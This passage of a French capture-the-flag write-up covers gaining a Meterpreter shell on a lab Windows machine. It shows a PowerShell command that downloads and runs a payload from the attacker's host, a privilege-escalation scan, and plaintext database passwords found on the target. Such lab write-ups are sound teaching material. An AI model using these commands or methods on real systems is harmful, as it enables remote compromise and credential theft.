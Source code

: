 ```plain
[*] Started reverse TCP handler on 10.10.14.177:4444
msf exploit(multi/script/web_delivery) > [*] Using URL: http://10.10.14.177:8080/imyRs8I0j3wnU
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $R=new-object net.webclient;$R.proxy=[Net.WebRequest]::GetSystemWebProxy();$R.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $R.downloadstring('http://10.10.14.177:8080/imyRs8I0j3wnU');
[*] 10.10.10.98      web_delivery - Delivering Payload
[*] 10.10.10.98      web_delivery - Delivering Payload
[*] Sending stage (206407 bytes) to 10.10.10.98
[*] Meterpreter session 1 opened (10.10.14.177:4444 -> 10.10.10.98:49164) at 2018-10-12 10:11:55 +0200
```

On enchaîne alors sur le module *local\_exploit\_suggester* pour chercher une faille d'escalade de privilèges :  

```plain
msf exploit(multi/script/web_delivery) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.98 - Collecting local exploits for x64/windows...
[*] 10.10.10.98 - 17 exploit checks are being tried...
[+] 10.10.10.98 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.98 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[*] Post module execution completed
```

Aucune de ces deux vulnérabilité ne s'avère exploitable... C'est le moment de se sortir les doigts et d'explorer le système par soit même.  

J'ai bien trouvé quelques credentials sur le système :  

```plain
c:\temp\scripts>type 1_CREATE_SYSDBA.sql
CREATE LOGIN  WITH PASSWORD='', CHECK_EXPIRATION=OFF, CHECK_POLICY=OFF;CREATE LOGIN sysdba WITH PASSWORD='masterkey', CHECK_EXPIRATION=OFF, CHECK_POLICY=OFF;

c:\temp\scripts>type README_FIRST.txt
Open the SQL Management Studio application located either here:
   "C:\Program Files (x86)\Microsoft SQL Server\120\Tools\Binn\ManagementStudio\Ssms.exe"
Or here:
   "C:\Program Files\Microsoft SQL Server\120\Tools\Binn\ManagementStudio\Ssms.exe"

- When it opens the "Connect to Server" dialog, under "Server name:" type "LOCALHOST", "Authentication:" selected must be "SQL Server Authentication".

   "Login:" = "sa"
   "Password:" = "htrcy@HXeryNJCTRHcnb45CJRY"

- Click "Connect", once connected click on the "Open File" icon, navigate to the folder where the scripts are saved (c:\temp\scripts).
- Select each script in order of name by the first number in the name and run them in order e.g. "1_CREATE_SYSDBA.sql" then "2_ALTER_SERVER_ROLE.sql" then "3_SP_ATTACH_DB.sql" then "4_ALTER_AUTHORIZATION.sql"
If the scripts begin from "2_*.sql" or "3_*.sql" it means the previous scripts ran fine, so begin from the lowest script number ascending.

For the vbs scripts:
- Go to windows Services and stop ALL SQL related services.
- Open command prompt with elevated privileges (Administrator).
- paste the following commands in command prompt for each script and click ENTER...
```